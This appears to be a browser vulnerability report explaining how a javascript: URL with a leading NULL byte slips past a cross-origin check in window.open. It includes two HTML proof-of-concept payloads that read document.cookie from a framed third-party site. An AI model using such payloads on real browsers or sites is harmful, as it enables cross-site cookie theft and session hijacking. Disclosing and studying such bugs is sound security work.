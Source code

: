 # javascript: url with a leading NULL byte can bypass cross origin protection.

> Well, it's not exactly StartsWith(), but the same thing for all intents and purposes.
In BindingDOMWindow::createWindow() there's a call to protocolIsJavaScript(), which
is a thin wrapper over protocolIs(), which is basically just reimplemented version of
StartsWith().
However, I'd say the real problem is completely inconsistent whitespace handling.
After the JavaScript check url_parse::TrimURL() eventually gets called, and clears
out every surrounding character less than space.

PoC 1:
```html
<iframe name="test" src="http://www.g.cn"></iframe>
<input type=button value="test"
onclick="window.open('\u0000javascript:alert(document.cookie)','test')" >
```

PoC 2:
```html
<iframe name="test" src="http://www.g.cn"></iframe>
<input type=button value="test"
onclick="window.open('\x00javascript:alert(document.cookie)','test')" >
```
